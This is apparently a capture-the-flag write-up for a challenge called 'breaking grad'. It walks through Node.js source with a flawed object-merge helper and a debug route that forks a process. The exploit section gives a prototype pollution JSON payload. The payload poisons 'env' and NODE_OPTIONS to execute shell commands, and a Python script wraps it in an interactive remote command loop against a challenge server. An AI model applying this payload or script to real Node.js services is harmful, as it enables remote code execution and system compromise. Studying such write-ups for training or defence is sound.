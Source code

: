 # breaking grad
![Screenshot from 2021-08-19 22-04-48](https://user-images.githubusercontent.com/87865134/130092858-5af8eb20-7c42-4eeb-8b35-6114d06a4eda.png)

## Information Gathering
- router `/api/caculate
```JavaScript
router.post('/api/calculate', (req, res) => {
    let student = ObjectHelper.clone(req.body);

    if (StudentHelper.isDumb(student.name) || !StudentHelper.hasBase(student.paper)) {
        return res.send({
            'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
        });
    }

    return res.send({
        'pass': 'Passed'
    });
});
```
- ObjectHelper.js
```JavaScript
module.exports = {
    isObject(obj) {
        return typeof obj === 'function' || typeof obj === 'object';
    },

    isValidKey(key) {
        return key !== '__proto__';
    },

    merge(target, source) {
        for (let key in source) {
            if (this.isValidKey(key)){
                if (this.isObject(target[key]) && this.isObject(source[key])) {
                    this.merge(target[key], source[key]);
                } else {
                    target[key] = source[key];
                }
            }
        }
        return target;
    },

    clone(target) {
        return this.merge({}, target);
    }
}
```
- router `/debug/:action`
```JavaScript
router.get('/debug/:action', (req, res) => {
    return DebugHelper.execute(res, req.params.action);
});
```
- DebugHelper.js
```JavaScript
const { execSync, fork } = require('child_process');

module.exports = {
    execute(res, command) {

        res.type('txt');

        if (command == 'version') {
            let proc = fork('VersionCheck.js', [], {
                stdio: ['ignore', 'pipe', 'pipe', 'ipc']
            });

            proc.stderr.pipe(res);
            proc.stdout.pipe(res);

            return;
        } 
        
        if (command == 'ram') {
            return res.send(execSync('free -m').toString());
        }
        
        return res.send('invalid command');
    }
}
```
- VersionCheck.js
```JavaScript
const package = require('./package.json');
const nodeVersion = process.version;

if (package.nodeVersion == nodeVersion) {
    console.log(`Everything is OK (${package.nodeVersion} == ${nodeVersion})`);
}else{
    console.log(`You are using a different version of nodejs (${package.nodeVersion} != ${nodeVersion})`);
}
```

## Analysis
- `ObjectHelper` has `merge()` function is a vulnerability because it return an object from json => maybe AST Injection
- `DebugHelper` use `fork()` to **spawn** a new process => able to posion the evironmental variables -> execute commands
- It's also possible to poison environmental variables by setting the `env` property in some object inside JS

## Exploit
- payload:
```json
{
        "name":"Cat",
        "constructor":{
            "prototype":{
                "env":{ 
                    "EVIL":"console.log(require('child_process').execSync('ls').toString())//"
                },
                "NODE_OPTIONS":"--require /proc/self/environ"
            }
        }
    }
```
- python script:
```python
import requests

url = 'http://142.93.35.92:31456'

def get_payload(cmd):
    return  {
        "name":"Cat",
        "constructor":{
            "prototype":{
                "env":{ 
                    "EVIL":"console.log(require('child_process').execSync('"+cmd+"').toString())//"
                },
                "NODE_OPTIONS":"--require /proc/self/environ"
            }
        }
    }

while (1):
    cmd = input("cmd: ")
    if cmd == 'q':
        exit()
    requests.post(url + '/api/calculate', json=get_payload(cmd))
    res = requests.get(url + '/debug/version')
    print(res.text)
```
- run script to get flag

![Screenshot from 2021-08-19 22-32-21](https://user-images.githubusercontent.com/87865134/130097625-bec5f25b-2033-4650-a584-6e4b8b267f92.png)

## Description
- **category:** AST Injection

## Reference
- https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#rce-abusing-environmental-variables
